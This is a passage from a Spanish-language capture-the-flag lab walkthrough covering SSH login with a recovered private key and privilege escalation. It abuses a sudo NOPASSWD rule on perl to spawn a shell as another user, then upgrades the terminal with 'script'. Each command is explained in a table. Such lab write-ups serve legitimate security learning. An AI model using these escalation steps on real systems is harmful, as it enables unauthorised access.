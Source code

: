 Esto es **necesario para que SSH acepte la clave privada**, ya que si tiene permisos más abiertos (por ejemplo, lectura para otros usuarios), el cliente SSH la rechazará por seguridad.

| Parte del comando                      | Explicación                                                                 |
|----------------------------------------|-----------------------------------------------------------------------------|
| `ssh`                                  | Cliente SSH para conectarse de forma remota a otro sistema.                |
| `-i id_rsa`                             | Especifica el **archivo de clave privada** (`id_rsa`) para la autenticación. |
| `vaxei@172.17.0.2`                      | Usuario (`vaxei`) y dirección IP del servidor al que se conecta.           |


🔐 Acceso SSH exitoso. Dentro del sistema, se encuentra un archivo `file.txt` sin relevancia.

---

## 7. Escalada de Privilegios

### Enumeración de permisos:

```bash
sudo -l
```

✅ Usuario `vaxei` puede ejecutar como `luisillo` sin contraseña:

```bash
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalada a `luisillo`:

```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
script /dev/null -c bash
```

| Parte del comando                     | Explicación                                                                 |
|---------------------------------------|-----------------------------------------------------------------------------|
| `sudo`                                | Ejecuta un comando con privilegios de otro usuario.                        |
| `-u luisillo`                         | Especifica que el comando se ejecutará como el usuario **luisillo**.       |
| `perl -e 'exec "/bin/sh";'`           | Usa **Perl** para ejecutar directamente un **shell `/bin/sh`**.            |

🔓 Este comando se utiliza comúnmente en escenarios de **escalada de privilegios**, cuando un usuario tiene permiso de `sudo` para ejecutar `perl` sin contraseña (`NOPASSWD`).  
El resultado es una **shell como el usuario `luisillo`**.

| Parte del comando               | Explicación                                                                 |
|---------------------------------|-----------------------------------------------------------------------------|
| `script`                        | Inicia una sesión de terminal grabada (por defecto, crea un archivo de log).|
| `/dev/null`                     | Redirige la salida del log a *nulo*, es decir, **no guarda nada**.         |
| `-c bash`                       | Ejecuta el comando especificado, en este caso, **inicia una shell Bash**.   |

